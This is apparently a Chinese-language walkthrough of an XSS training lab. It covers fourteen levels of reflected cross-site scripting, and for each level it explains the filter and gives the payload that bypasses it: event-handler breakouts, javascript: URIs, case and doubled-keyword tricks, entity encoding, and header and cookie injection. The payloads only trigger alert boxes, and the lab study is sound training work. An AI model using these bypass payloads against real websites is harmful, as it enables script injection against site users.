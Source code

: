## level1
反射型XSS</br>
```java
payload：?name=<script>alert(1)</script>
```

## level2
```java
payload："><script>alert(1)</script>
```

## level3
输入1<"">''内容然后搜索，查看源代码，两个回显点均过滤特殊字符，但是单引号未过滤。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(1).png height="300" width="650">
```java
payload：1' onmouseover='alert(1)
```
鼠标划过输入框上面即弹窗：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(2).png height="300" width="650">

## level4
跟上一关一样，双引号的不同。</br>
```java
payload：1” onmouseover=“alert(1)
```

## level5
script大小写、on事件被禁用：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(3).png height="300" width="650"></br>
但是双引号、单引号、尖括号都可以用</br>
```java
payload：1"><a href="javascript:alert(1)">
```

## level6
script、on事件、href链接相关词被转义：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(4).png height="300" width="650"></br>
可以大小写绕过：</br>
```java
payload：1"><scRipt>alert(1)</scRipt>
```

## level7
输入<script>&lt;onerror&gt;&lt;a hRef&gt;测试，发现对关键字进行了过滤，且大小写不能绕过：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(5).png height="300" width="650"></br>
发现对关键字只进行了一次过滤，可以对关键字双写绕过：</br>
```java
payload：1" oonnmouseover="alert(1)
```
  
## level8
先输入一些关键字符<scripT>&lt;oNerror&gt;&lt;a Href&gt;""''，测试防御情况，看到关键字都被转义，看到a标签考虑使用”<a href="javascript:alert(1)"></a>“，页面有回显的超链接，想办法将script转码一下。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(6).png height="300" width="650"></br>
尝试用如下方式对标签属性值进行转码：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(7).png></br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(8).png></br>
```java
payload：javasc&#13ript:alert(1)
```

## level9
测试看到a标签考虑使用<a href="javascript:alert(1)"></a>，页面有回显的超链接，想办法将script转码一下。</br>
但是使用上一关的payload测试，发现一直提示链接不合法，测试得知必须使用`http://`才能链接合法，想办法将该字符塞入payload中，使用js代码的注释符注释`http://`</br>
```java
payload：javasc&#9ript:alert(1)/*http://*/
payload：javasc&#9ript:alert(1)//http://
payload：javasc&#9ript:alert(1)<!--http://
```

## level10
右键审查元素发现t_sort的隐藏域可控制输入内容，但是触发隐藏域需要使用accesskey属性，payload如下。</br>
但是触发的时候浏览器不同触发键不一样；另外笔记本键盘和外设键盘可能会影响触发效果。</br>
FireFox下：shift+alt+X (测试成功) </br>
Chrome下：alt+X (Chrome未测试成功) </br>
```java
payload：?t_sort=1"%20accesskey="X"%20onclick="alert(1)
```

## level11
此题比较注入点隐晦，比较难以发现。首先右键查看页面源代码分析，多了一个t_ref隐藏域，进一步分析它是由请求头中的Referer字段取值而来，而且只能从请求头中取Referer值，不能由URL传值；另外我们知道Referer字段是可以伪造的，那么我们可以使用BurpSuite来抓包伪造Referer字段来构造payload。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(9).png height="300" width="650"></br>
```java
payload：Referer: 1" type="txt" oninput="alert(888)
```
这种构造，会将t_ref隐藏域在页面显现，on事件触发条件为在输入框中输入任意值即触发XSS。</br>

## level12
与上一题一样，只不过输入点在User-Agent。</br>
```java
payload：User-Agent: 1" type="txt" oninput="alert(888)</br>
```

## level13
与上一题一样，只不过输入点在cookie。</br>
```java
payload：user=1" type="txt" oninput="alert(888)</br>
```

## level14
查看网页源码，看到<iframe src=></iframe>标签，就应该考虑设法在src处注入：src=javascript(1)。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(10).png height="300" width="650"></br>
如何替换`src="http://www.exifviewer.org/"`中的网址成了我们要考虑的问题，进一步追踪该网页的来源，最后通过抓包在响应包中发现该网址。
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(11).png height="300" width="650"></br>
那么我们的思路就清楚了，通过抓包，修改响应包的src值来控制输入内容，达到XSS目的。
```java
payload：src="javascript:alert(666)"
```

## level15







